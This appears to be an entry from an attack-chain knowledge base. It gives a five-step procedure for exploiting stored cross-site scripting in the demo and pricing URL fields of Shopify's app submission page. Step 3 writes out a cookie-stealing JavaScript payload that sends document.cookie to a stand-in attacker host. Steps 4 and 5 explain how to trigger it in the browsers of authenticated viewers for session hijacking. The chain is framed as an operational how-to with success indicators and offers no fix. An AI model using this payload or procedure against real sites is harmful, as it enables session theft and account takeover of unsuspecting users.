

---
tags:
  - xss
  - stored-xss
  - shopify
  - session-hijacking
  - javascript-injection
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-01-01T00:00:00Z'
procedures:
  - '[[procedures/Create-and-Edit-Shopify-Partner-App]]'
  - '[[procedures/Inject-XSS-Payload-into-URL-Field]]'
  - '[[procedures/Trigger-Stored-XSS-in-App-Preview]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-13T23:52:33.730Z'
description: >-
  A multi-stage attack exploiting stored XSS vulnerabilities in Shopify's app
  submission edit page to inject JavaScript payloads into DEMO and pricing URL
  fields, leading to arbitrary code execution when victims preview the app.
skill_level: intermediate
impact_level: high
id: c8de0f4e-67b8-4473-bccd-63efba63f1c8
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
---
# Stored XSS in Shopify App Demo and Pricing URLs for Session Hijacking

Multi-stage attack chain demonstrating a complete workflow to exploit stored Cross-Site Scripting (XSS) vulnerabilities in Shopify's app submissions edit page at apps.shopify.com. An attacker with a Shopify partner account can inject JavaScript payloads into the DEMO URL and pricing URL fields. These payloads are stored without sanitization and execute when any authenticated user previews the app changes and views the example store, potentially hijacking sessions or stealing data in the context of apps.shopify.com.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools for payload testing)

### Target Environment

- Shopify Partner Dashboard (requires authenticated partner account)
- Web platform
- No specific ports or services beyond standard HTTPS access to apps.shopify.com

### Initial Access Requirements

- Valid Shopify partner account credentials
- Network access to apps.shopify.com
- No prior access to victim accounts needed; affects any viewer of the app preview

## Detailed Attack Procedures

### Step 1: Create a New App
procedure: [[procedures/Create-and-Edit-Shopify-Partner-App]]

**Objective**: Set up a malicious app in the Shopify partner dashboard to access the vulnerable edit page.

**Instructions**: Log in to the Shopify partner dashboard, navigate to the apps section, and create a new application. This provides access to the app submissions edit page where the URL fields are vulnerable.

**Expected Output**: New app created with an edit link to https://apps.shopify.com/services/app_submissions/edit#.

**Success Indicators**:
- App creation confirmation
- Access to the edit page granted

### Step 2: Navigate to App Submissions Edit Page
procedure: [[procedures/Create-and-Edit-Shopify-Partner-App]]

**Objective**: Reach the vulnerable form fields for payload injection.

**Instructions**: From the partner dashboard, select the newly created app and go to the submissions edit page at https://apps.shopify.com/services/app_submissions/edit#.

**Expected Output**: Edit page loaded with DEMO URL and pricing URL input fields visible.

**Success Indicators**:
- Form fields accessible for input
- No immediate validation errors

### Step 3: Inject Payload into DEMO URL Field
procedure: [[procedures/Inject-XSS-Payload-into-URL-Field]]

**Objective**: Store a JavaScript payload in the DEMO URL field without sanitization.

**Instructions**: In the DEMO URL input field, enter a payload such as `javascript:alert('XSS')` or a more advanced one like `javascript:fetch('https://attacker.com/steal?cookie='+document.cookie).then(r=>r.text()).then(d=>location='https://attacker.com/log?data='+encodeURIComponent(d))`. Save the changes.

**Expected Output**: Payload stored in the field; no errors on save.

**Success Indicators**:
- Payload accepted and saved
- Field reflects the injected value

### Step 4: Preview Changes and Trigger XSS
procedure: [[procedures/Trigger-Stored-XSS-in-App-Preview]]

**Objective**: Execute the stored payload in the victim's browser context by previewing the app.

**Instructions**: Click the 'Preview changes' button, then select 'View example store'. The payload executes as JavaScript on the apps.shopify.com domain.

**Expected Output**: Alert or network request triggered, confirming XSS execution.

**Success Indicators**:
- JavaScript alert pops up
- Network tab shows exfiltration request (if payload includes it)
- Potential session cookie theft

### Step 5: Inject Payload into Pricing URL Field
procedure: [[procedures/Inject-XSS-Payload-into-URL-Field]]

**Objective**: Repeat the injection in the pricing URL field to expand the attack surface.

**Instructions**: Return to the edit page and enter the same or similar JavaScript payload into the pricing URL field. Save changes and preview again to trigger.

**Expected Output**: Second payload stored and executable on preview.

**Success Indicators**:
- Payload saved in pricing field
- Execution on subsequent preview

## Attack Chain Summary

### Key Achievements

1. Successful storage of unsanitized JavaScript in app URL fields
2. Arbitrary code execution in the context of authenticated users on apps.shopify.com
3. Potential for session hijacking, data theft, or further phishing attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2024-01-01T00:00:00Z*
